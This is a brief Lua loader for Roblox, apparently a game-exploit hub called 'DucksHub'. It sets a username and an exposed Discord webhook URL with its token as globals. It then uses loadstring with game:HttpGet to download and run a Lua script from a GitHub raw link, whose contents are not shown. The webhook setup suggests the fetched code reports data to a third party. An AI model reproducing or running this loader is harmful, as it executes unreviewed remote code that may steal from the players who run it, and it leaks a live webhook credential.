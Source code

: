# DucksHub
duckshub
_G.Username = "XXLukaXX100"
_G.HubName = "DucksHub"
_G.WebhookUrl = "https://discord.com/api/webhooks/1102397000441401477/YCTy-CcvM-0c_Rf-Bqd2abn5EfeS8o96Xcqu5kNvbJBmHFmSkajc_WBPRalR-xSPn7f0"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
